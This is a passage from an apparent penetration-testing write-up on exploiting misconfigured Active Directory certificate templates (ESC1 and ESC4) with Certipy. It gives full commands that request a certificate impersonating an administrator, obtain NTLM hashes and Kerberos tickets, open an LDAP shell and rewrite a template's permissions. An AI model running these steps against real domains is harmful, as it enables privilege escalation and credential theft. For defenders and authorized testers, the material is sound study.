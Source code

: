 ```certipy find -u tevora@domain.local -p 'Longpassword123!' -dc-ip 10.10.10.10 -enabled -stdout```
In this scenario, the ESC1 misconfigured certificate template allows domain users to enroll for certificates and impersonate any Active Directory user. The template has 'client authentication' and the 'Enrollee Supplies Subject' set to true which mean the requester can specify a subjectAltName (SAN) that allows additional identities to be associated with the certificate, including a privileged user. Manager approval is not required which mean the request for certificates are automatically approved without any additional checks or verification.

Example ESC 1 vulnerable template:

![[ESC1_1.png]](/assets/img/ADCS/ESC1_1.png)

Request ESC1 vulnerable template with User Principal Name (UPN) ADMIN@DOMAIN.LOCAL

```certipy req -u 'tevora@domain.local -p 'Longpassword123!' -target CA-SERVER.domain.local -template ESC1 -ca CA-SERVER -upn ADMIN@DOMAIN.LOCAL```

![[ESC1_2.png]](/assets/img/ADCS/ESC1_2.png)

Authentication with the admin.pfx we requested to get NTLM hash and Kerberos ticket

```certipy auth -pfx admin.pfx -dc-ip 10.10.10.10```

![[ESC1_3.png]](/assets/img/ADCS/ESC1_3.png)

Recently Certipy will have error "KRB_AP_ERR_BAD_INTEGRITY(Integrity check on decrypted field failed)" when trying to retrieve NTLM or Kerberos ticket.

![[ESC1_4.png]](/assets/img/ADCS/ESC1_4.png)

We can circumvent this by using [PKINITtools](https://github.com/dirkjanm/PKINITtools) as we demonstrated from previous post or we can use the "-ldap-shell" command to authenticate to LDAP and configure Resource-Based Constrained Delegation (RBCD) on a workstation target.

```certipy auth -pfx dc2.pfx -dc-ip 10.10.10.10 -ldap-shell```

![[ESC1_5.png]](/assets/img/ADCS/ESC1_5.png)

#### ESC 4 - Vulnerable Certificate Template Access Control

The ESC4 misconfigured certificate template allows domain users to have write privileges over the template. With permissions FullControl, WriteDacl, WriteOwner, or WriteProperty to the template, it can be abused to overwrite the configuration of the certificate template to make the it vulnerable to ESC1.

Example ESC 4 vulnerable template:

![[ESC4_1.png]](/assets/img/ADCS/ESC4_1.png)


The authenticated users have the write property principles right on the ESC4 template. We are able to reconfigure the ESC4 template adding the 'ENROLLEE_SUPPLIES_SUBJECT' flag and perform ESC1 attack. Make sure to use the -save-old flag to save the template configuration to restore it later.

```certipy template -u 'tevora@domain.local -p 'Longpassword123!' -template ESC4 -dc-ip 10.10.10.10 -save-old```

![[ESC4_2.png]](/assets/img/ADCS/ESC4_2.png)

ESC4 template now has  'ENROLLEE_SUPPLIES_SUBJECT' flag, client authentication , and pretty much everything set to true.

![[ESC4_3.png]](/assets/img/ADCS/ESC4_3.png)

We can perform ESC1 attack as we did earlier and make sure to restore the template back to the original state.

```